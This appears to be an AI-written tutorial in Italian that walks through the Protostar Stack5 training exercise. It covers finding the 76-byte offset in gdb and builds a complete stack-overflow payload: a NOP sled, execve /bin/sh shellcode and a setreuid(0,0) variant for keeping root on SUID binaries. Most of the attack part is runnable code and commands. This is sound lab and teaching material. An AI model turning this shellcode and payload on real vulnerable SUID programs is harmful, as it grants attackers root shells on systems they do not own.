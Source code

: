 Di seguito trovi un percorso *passo‑passo* (con comandi pronti) per risolvere **Protostar – Stack5** eseguendo shellcode tramite overflow di buffer.

---

## 0) Contesto (cosa stiamo sfruttando)

* Il binario vulnerabile è in **`/opt/protostar/bin/stack5`** e la pagina dell’esercizio fornisce anche gli *hints* (usare shellcode altrui, `\xcc` per debuggare). ([exploit.education][1])
* Su Protostar **ASLR e NX sono disabilitati**, quindi la *stack* è eseguibile e gli indirizzi sono stabili (utile per posizionare il salto). ([exploit.education][2])
* Il sorgente è minimale: buffer da 64 byte e `gets(buffer);`, quindi overflow sicuro. ([exploit.education][1])

---

## 1) Trova l’offset fino all’EIP

Nel frame di `main`, l’EIP salvato viene sovrascritto dopo i 64 byte di `buffer` + 12 byte (EBP e allineamenti): **in pratica a 76 byte**. Puoi verificarlo velocemente:

```bash
gdb -q /opt/protostar/bin/stack5
# (opzionale) stile Intel
(gdb) disas main
(gdb) r < <(python -c 'print "A"*76')     # con Python2
# oppure:
(gdb) r < <(python3 - <<'PY'
import sys; sys.stdout.buffer.write(b"A"*76)
PY
)
```

Con 76 ‘A’ il programma va in **SIGSEGV**: è il segnale che hai il controllo dell’EIP. Un write‑up mostra proprio che a 76 byte il processo crascia (e come abilita i core dump per ispezionare lo stack). ([DEV Community][3])

> Nota: invece della “conta” manuale, puoi anche usare un pattern/cyclic e poi `cyclic_find`, ma per Stack5 76 è il valore che troverai. ([kevindoubleu.github.io][4])

---

## 2) Scegli uno **shellcode** affidabile (/bin/sh)

Per x86 a 32 bit va benissimo il classico `execve("/bin/sh")` (23 byte), ad esempio questo (Shell‑Storm/Exploit‑DB):

```text
\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xB0\x0b\xcd\x80
```

(23 byte) ([shell-storm.org][5], [Exploit Database][6])

> Se vuoi **garantire i privilegi root** quando il binario è SUID, usa uno shellcode che fa prima `setreuid(0,0)` e poi `execve("/bin/sh")` (33 byte). ([Exploit Database][7])

---

## 3) Strategia di salto: “ret‑into‑sled” *dopo* l’EIP

È la via più semplice e robusta in Protostar:

1. **Metti una NOP sled e lo shellcode *dopo* l’EIP** (cioè nei byte che seguono la return address sovrascritta).
2. **Sovrascrivi l’EIP** con l’**indirizzo** che **punta dentro la NOP sled**.

Per ricavare l’indirizzo preciso:

```bash
(gdb) disas main
# troverai il ret a un indirizzo tipo 0x080483da (dipende dalla build)
(gdb) b *0x080483da
(gdb) r
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
(gdb) x/8wx $esp
```

A quel breakpoint, la word a `$esp` contiene `TTTT` (l’EIP salvato corrotto), e **`$esp+4`** contiene `UUUU` (il primo dword *dopo* l’EIP). Scegli quell’**indirizzo di `$esp+4`** come target: ci faremo atterrare il salto dentro la NOP sled che metteremo subito dopo l’EIP. Un write‑up mostra esattamente questa tecnica con gli stessi marker (“TTTT”, “UUUU”). ([kevindoubleu.github.io][4])

---

## 4) (Opzionale) Usa `\xcc` per confermare il salto

Gli *hint* ufficiali suggeriscono di usare `\xcc` (INT3) per “fermare” lanciando un **SIGTRAP** se l’EIP atterra dove vuoi. Metti qualche `\xcc` al posto della sled/shellcode per provare in `gdb`, poi rimuovili nella versione finale. ([exploit.education][1])

---

## 5) Costruisci il **payload** (Python 3)

**Sostituisci `RET_ADDR` con l’indirizzo che hai letto in gdb (di solito `$esp+4` al breakpoint sul `ret`)**:

```bash
python3 - <<'PY' > payload
import struct, sys

offset = 76  # bytes fino all'EIP
ret_addr = 0xBFFFF7B0  # <-- METTI QUI l'indirizzo che hai trovato (esempio: $esp+4)
nop     = b"\x90" * 200

shellcode = (b"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53"
             b"\x89\xe1\x99\xb0\x0b\xcd\x80")

payload = b"A"*offset + struct.pack("<I", ret_addr) + nop + shellcode
sys.stdout.buffer.write(payload)
PY
```

L’idea (molto usata nei write‑up) è identica al seguente esempio reale: 76 ‘A’, return address che punta dentro la sled posizionata **dopo** l’EIP, e poi lo shellcode per `/bin/sh`. ([DEV Community][3])

> Se vuoi prima fare la prova con `\xcc`, sostituisci `shellcode = b"\xcc"*4` e lancia dentro `gdb`: dovresti vedere **SIGTRAP** quando il salto riesce (come suggerito dagli hint). ([exploit.education][1])

---

## 6) Esegui ed ottieni la shell (mantenendo STDIN aperto)

Per avere una shell interattiva via pipe, usa il “trucco del **cat**” per tenere aperto lo **stdin**:

```bash
# Variante interattiva
( cat payload; cat ) | /opt/protostar/bin/stack5
# ora digita comandi, es.:
id
```

Questo schema è mostrato anche in una guida a Stack5 (mantiene vivo lo stdin per interagire con la shell appena eseguita). ([noobfromPitt][8])

Se vuoi verificare al volo senza interattività:

```bash
cat payload | /opt/protostar/bin/stack5
```

---

## 7) Perché funziona (riassunto)

* `gets()` scrive oltre i 64 byte di `buffer`, sovrascrivendo **EBP** e poi la **return address**.
* Con 76 byte arriviamo a controllare l’EIP. (Mostrato in analisi e write‑up.) ([DEV Community][3], [kevindoubleu.github.io][4])
* Iniettiamo **NOP sled + shellcode** nello stack e facciamo puntare l’EIP dentro la sled: la CPU scivola (“sled”) fino allo shellcode e **esegue `/bin/sh`**. (Shellcode standard 23B.) ([shell-storm.org][5])
* Su Protostar la **stack è eseguibile** e **ASLR è off**, quindi la tecnica “ret‑into‑stack” funziona senza ROP. ([exploit.education][2])

---

## 8) Note pratiche / troubleshooting

* **Indirizzi leggermente diversi dentro/fuori gdb**: capita per differenze d’ambiente. Se noti mismatch, aumenta la NOP sled (es. 400–800 byte) o prendi un indirizzo un po’ più “nel mezzo” dei tuoi NOP. Un post mostra che bastano *sled* di qualche decina/centinaio di byte per assorbire gli scostamenti. ([Stack Overflow][9])
* **SUID e privilegi**: se la shell dovesse *droppare* privilegi, usa lo shellcode con `setreuid(0,0)` prima di `execve`. ([Exploit Database][7])
* **Debug con core**: se vuoi analizzare i crash dei SUID, abilita i core dump come nell’esempio ( `ulimit -c unlimited` e `printf 1 > /proc/sys/fs/suid_dumpable` ) per poi aprire il core in gdb. ([DEV Community][3])

---

### Riferimenti che ho usato

* Pagina ufficiale “Stack Five” (per percorso del binario e *hints*). ([exploit.education][1])
* Pagina principale di Protostar (spiega che **NX/ASLR sono disabilitati**). ([exploit.education][2])
* Write‑up con conferma dell’**offset 76**, breakpoint su `ret` e strategia “salta nel post‑EIP”. ([DEV Community][3], [kevindoubleu.github.io][4])
* Shellcode `/bin/sh` (23 byte). ([shell-storm.org][5])
* Shellcode `setreuid(0,0) + /bin/sh` (33 byte) per SUID. ([Exploit Database][7])

Se vuoi, posso aiutarti a ricavare **l’indirizzo esatto** dal tuo gdb (incollami l’output di `x/8wx $esp` al breakpoint sul `ret`) e ti preparo il payload con il `ret_addr` già corretto per la tua VM. 💪🏻

[1]: https://exploit.education/protostar/stack-five/ "Stack Five :: Andrew Griffiths' Exploit Education"
[2]: https://exploit.education/protostar/?utm_source=chatgpt.com "Protostar :: Andrew Griffiths' Exploit Education"
[3]: https://dev.to/hextrace/jump-into-local-shellcode-protostar-stack5-57mb "Jump into shellcode (protostar - stack5) - DEV Community"
[4]: https://kevindoubleu.github.io/writeups/exploit-education/protostar/stack/stack5/ "Protostar - stack5 - doubleu"
[5]: https://shell-storm.org/shellcode/files/shellcode-827.php?utm_source=chatgpt.com "Linux/x86 - execve /bin/sh shellcode - 23 bytes - Shell-Storm.org"
[6]: https://www.exploit-db.com/exploits/37384?utm_source=chatgpt.com "Linux/x86 - execve(/bin/sh) Shellcode (23 bytes) (1) - Exploit-DB"
[7]: https://www.exploit-db.com/exploits/13379?utm_source=chatgpt.com "Linux/x86 - setreuid(0,0) + execve(\"/bin/sh\", [\"/bin/sh\", NULL ..."
[8]: https://noobfrompitt.github.io/protostar-stack5/ "Protostar stack5 walkthrough - noobfromPitt"
[9]: https://stackoverflow.com/questions/72487665/how-i-can-get-this-memory-address-in-protostar-stack-5-ctf?utm_source=chatgpt.com "How i can get this memory address in Protostar stack 5 CTF"
